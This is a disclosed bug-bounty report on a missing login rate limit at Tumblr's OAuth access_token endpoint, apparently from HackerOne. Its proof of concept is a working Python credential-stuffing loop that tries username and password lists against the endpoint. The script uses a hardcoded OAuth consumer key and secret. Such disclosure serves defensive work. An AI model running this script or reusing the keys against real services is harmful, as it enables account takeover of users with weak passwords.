 # Rate Limit Misconfiguration on tumblr login .

## Report Details
- **Report ID**: 708917
- **URL**: https://hackerone.com/reports/708917
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-10-07T13:01:27.908Z
- **Disclosed**: 2020-11-13T17:06:07.916Z

## Reporter
- **Username**: u0pattern
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
The Rate Limit should always be on the login endpoint and have an acceptable limit, for example, 20 rate limit, but when there is no limit or the limit is huge, for example, 5000, this is certainly dangerous because it is a Rate Limit Misconfiguration, [for example](https://hackerone.com/reports/385381) .

--------------
## PoC :
```python
import requests,requests_oauthlib
########################################################################
oauth_consumer_key = 'BUHsuO5U9DF42uJtc8QTZlOmnUaJmBJGuU1efURxeklbdiLn9L'
oauth_consumer_secret = 'olOu3aRBCdqCuMFm8fmzNjMAWmICADSIuXWTnVSFng1ZcLU1cV'
# https://github.com/kennydude/tumblr-client/blob/master/common.php#L89
########################################################################
url = 'https://www.tumblr.com/oauth/access_token'
users = open('users.txt','r').read().splitlines()
passwords = open('passwords:.txt','r').read().splitlines()
for user in users:
	for p4ss in passwords:
		data_p = 'x_auth_username='+user+'&x_auth_password='+p4ss+'&x_auth_mode=client_auth'
		a = requests.post(url,auth=requests_oauthlib.OAuth1(oauth_consumer_key,oauth_consumer_secret,decoding=None),data=data_p).text
		print(a)
```

--------

## Impact

The attacker can access to many accounts whose passwords are weak .

## Attachments
No attachments
